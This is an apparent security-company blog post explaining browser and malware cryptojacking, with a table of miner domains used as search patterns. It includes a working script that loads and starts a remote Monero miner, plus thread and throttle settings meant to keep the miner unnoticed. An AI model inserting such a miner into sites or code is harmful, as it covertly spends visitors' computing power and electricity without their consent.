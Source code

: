 ```yaml
---
slug: cryptojacking-malware/
title: Cryptojacking, a Real Malware?
date: 2019-08-25
category: opinions
subtitle: Understanding cryptojacking "malware"
tags: social-engineering, hacking, malware
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330840/blog/cryptojacking-malware/cover_qypfzt.webp
alt: Photo by Alberto Duo on Unsplash
description: Here we'll explain the different types of cryptojacking and give an example. We'll also discuss its legal use and the advantages of implementing it in an app.
keywords: Blockchain, Cryptocurrencies, Cryptojacking, Mining, Malware, JavaScript, Ethical Hacking, Pentesting
author: Diego Alvarez
writer: diegoaa
name: Diego Alvarez
about1: Systems and Telecommunications Engineer student
about2: '"Blessed is the man who expects nothing, because he will never be disappointed." Alexander Pope'
source: https://unsplash.com/photos/e4rcg33x4fA
---
```


Before we begin, we need a brief definition of blockchain. It is simply
a unique, consensual, and distributed registry on the network that
allows storage of information that cannot be modified, lost or deleted.
It is used in the health sector, smart contracts, intellectual property
management, and cryptocurrencies, the last being its most common use.

In the field of cryptocurrencies, a blockchain stores all transactions
made with a cryptocurrency. The security and integrity of these systems
are maintained by nodes, which are computers connected to the blockchain
network competing with each other to verify transactions. This process
is known as mining and is carried out by providing processing power with
either `CPUs`, `GPUs`, or by using specialized hardware for this type of
task.

Usually nodes associate with each other and create groups that working
together help to validate a group of transactions. When these
transactions are validated, each node is rewarded with the proportion of
the power contributed.

## Concept

When mining cryptocurrency, take into account that in these processes,
the percentage of `GPU` or `CPU` usage increases, as well as the use of
electricity.

Now, what if I tell you that others can perform such processing power
for you, and even better, without having to divide the profits between
them? It sounds pretty good, and it’s simple to implement with two
variations:

- The first is carried out by infecting a victim’s machine with
  malware. Usually, this is done by social engineering. We can make a
  victim, without their knowledge, download malware that executes the
  mining process in the background.

- The other variation is in-browser mining. This executes code in the
  user’s browser when the user is accessing a particular site. In this
  case, `JavaScript` is used to execute such scripts.

## Discussion

On one hand, some people prefer that their `CPU` be used `100%` of the
time, without having to deal with ads and pop-ups on every new page.

On the other hand, antivirus companies periodically update their
definition of malware and include web miners as a potential threat to a
user’s system.

According to reports by COINTELEGRAPH[<sup>\[1\]</sup>](#r1%20), Monero
(the currency most affected by excessive mining) plans to reinforce its
algorithm by requiring miners to dedicate over two gigabytes of `RAM` to
the process, which could make cryptojacking attempts harder to hide.

How the scripts are used defines whether the usage is legal or not.
There are cases where attackers inject code into websites through `XSS`,
generating profits, but do not have the consent of the website
administrator.

As noted above, with social engineering techniques, the attacker could
make victims download malicious programs to perform mining without
consent.

## Tools

There are many tools that can be used to perform in-browser mining.
[Coinhive](https://krebsonsecurity.com/2018/03/who-and-what-is-coinhive/)
had been one of the most used, but since March 2019 it has stopped
working.

However, there are other tools that are quite similar. Table 1 below, a
scan made with [publicWWW](https://publicwww.com/), shows the
approximate number of websites using these tools.

<div class="tc">

**Table 1. Quantity of websites per library[<sup>\[2\]</sup>](#2)**

</div>

| Website           | Results | Query Parameter                                                                                                                                                        |
| ----------------- | ------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Coinhive          | 30611   | "coinhive.min.js"                                                                                                                                                      |
| JSEcoin           | 1131    | "load.jsecoin.com"                                                                                                                                                     |
| Crypto-Loot       | 695     | "CryptoLoot.Anonymous"                                                                                                                                                 |
| Minr              | 324     | "minr.pw", "st.kjli.fi", "abc.pema.cl", "metrika.ron.si", "cdn.rove.cl", "host.d-ns.ga", "static.hk.rs", "hallaert.online", "cnt.statistic.date", "cdn.static-cnt.bid" |
| CoinImp           | 317     | "www.coinimp.com/scripts/min.js"                                                                                                                                       |
| ProjectPoi (PPoi) | 116     | "projectpoi.min"                                                                                                                                                       |
| AFMiner           | 46      | "afminer.com/code/miner.php"                                                                                                                                           |
| Papoto            | 42      | "papoto.com/lib/papoto.js"                                                                                                                                             |

In the following example, a test is shown using [Crypto
Loot](http://Crypto-Loot), a library that is replacing the previous
Coinhive. It is very easy to implement in any application by inserting
the following code.

**In-Browser mining script.**

``` JavaScript
<script src="//statdynamic.com/lib/crypta.js"></script>
<script>
  var miner = new CRLT.Anonymous('15837bc7758859e913c5ccc2d292a9f1e54775389d5',
    { threads:4,throttle:0.2, coin: "xmr" }
  );
  miner.start();
</script>
```

When a user visits the application, the processing level quickly
increases. The recommended thread value to make the script unnoticed is
between 2-4. And the throttle that defines the maximum `CPU` usage is at
0.2 (80%), the full speed being 0.0, and the least recommended.

<div class="imgblock">

![CPU Usage](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330839/blog/cryptojacking-malware/cpu_wkmpwo.webp)

<div class="title">

Figure 1. CPU Usage while visiting a website with In-Browser mining script.

</div>

Collected earnings and processing power can be seen on the
[dashboard](https://crypto-loot.org/dashboard/) of the person who
inserted the script.

## Conclusion

The use of services such as [Crypto Loot](http://Crypto-Loot) can be
legal. They are considered malware when used anonymously in user’s
systems. It is our responsibility to inform users about what is
happening and provide statistics to users on mined power.

In order for these mining methods to be legitimate and therefore, legal,
users must receive a notification about the execution of these scripts,
as well as the option to disable them and stop mining.

So far, there are few websites where the user is not actually informed
of the use of these scripts. Here is where antivirus companies disagree.
Some antivirus companies believe excessive `CPU` usage can cause
intentional damage, while others believe there is no intention to harm
an infected machine’s files; they just make the machine work a little
slower.

Without a doubt, no one wants their machine to work slower, but with
proper configuration of the scripts, you can achieve a website that
generates profits without having to show annoying ads to visitors and
without exceeding `CPU` usage.

## References

1. COINTELEGRAPH. [Monero Developers Consider Adopting New
    Proof-of-Work Algorithm in
    October.](https://cointelegraph.com/news/monero-developers-consider-adopting-new-proof-of-work-algorithm-in-october)

2. S. Eskandari, A. Leoutsarakos, T. Mursch and J. Clark (2018). [A
    first look at browser-based
    cryptojacking](https://sci-hub.tw/https://ieeexplore.ieee.org/abstract/document/8406561).
    *2018 IEEE European Symposium on Security and Privacy Workshops
    (EuroS\&PW)*, 63.
